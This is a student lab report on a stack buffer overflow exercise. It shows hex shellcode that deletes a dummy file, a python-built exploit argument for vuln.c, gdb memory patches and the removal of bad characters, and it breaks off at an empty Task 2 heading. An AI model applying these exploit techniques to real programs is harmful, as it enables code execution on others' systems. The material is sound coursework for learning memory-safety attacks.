 Name: Dinh Thi Thanh Vy
ID: 22110093

# Lab 2: 
---
## Task 1: Inject code to delete file
**Source code: .asm file**
![alt text](./image/image-11.png)

**Run virtual environment by docker file**

![alt text](./image/image-12.png)

**Run file asm and get the shellcode**
![alt text](./image/image-13.png)
- We have the shellcode for this program as follows:
>\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00

--> We remove \xdummyfile because it is not meaningful hexadecimal code

**Stack Frame:**
![alt text](./image/image-14.png)

- Shell code: `36 bytes`
- Return address: `4 bytes`
--> placement code: `32 bytes`
Here, we will use the vuln.c program to trigger a buffer overflow

**Connect to gdb**
![alt text](./image/image-15.png)
- Break in this position to see the change
`b *0x0804846b`

- Run vuln.c
>r $(python -c "print('\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00'+'a'*32+'\xff\xff\xff\xff')")

![alt text](./image/image-16.png)
We observe that the first 3 bytes still correspond to the shellcode, but starting from the 4th byte, which corresponds to the newline character 0x0a, the `strcpy` function terminates the string, causing the interruption.  

Observing the ASCII table, we need to avoid the following characters: 
- `0x00` because it marks the end of a string. 
- `0x09` because it's the tab character and would split the argument. 
- `0x0a` because it's the newline character and would also terminate the string.

Additionally, `0x0a` has a decimal value of 10, and upon reviewing the assembly code, we find:
![alt text](./image/image-17.png)

- Change file asm:
![alt text](./image/image-20.png)

- Get shellcode again
>\xeb\x14\x31\xc0\xb0\x08\x04\x02\xbb\x7b\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe7\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00\

![alt text](./image/image-19.png)

For now, we will set the bytes of the address to 0xff. The last used byte of the shellcode will be 0x0f to 
prevent string termination and to identify the position of the return frame.

>r $(python -c "print('\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x0f'+'a'*32+'\xff\xff\xff\xff')")

![alt text](./image/image-22.png)

At this point, the program will likely report an error because it cannot find the address `0xffffffff`. 

We need to set `0x0c` to `0x00` at the address `0xffffd66b` by using command: 
`set {unsigned char} 0xffffd66b = 0x00`

we will replace the values of 0xffffffff with the address of the buffer, which is ffffd658, in the form of \x58\xd6\xff\xff. 
`set *0xffffd69c = 0xffffd658`

**The command will be:**
![alt text](./image/image-23.png)

**Continue runing the program to test out**

![alt text](./image/image-24.png)
- Dummyfile is still here. Look at the assembly code!
>objdump -d file_del

![alt text](./image/image-25.png)

As we can see, the dummyfile is **start from** `0xffffd672` **not from** `0x080407a` in C program!
- We need to set 0xffffd651 to point at that using command: 
`set *0xffffd661 = 0xffffd672`
![alt text](./image/image-26.png)
ets/83b8577a-e3d5-44fa-aabe-0d191f149020)
- continue running the program 
![alt text](./image/image-27.png)

-->Dummyfile is deleted


## Task 2: Conduct attack on ctf.c

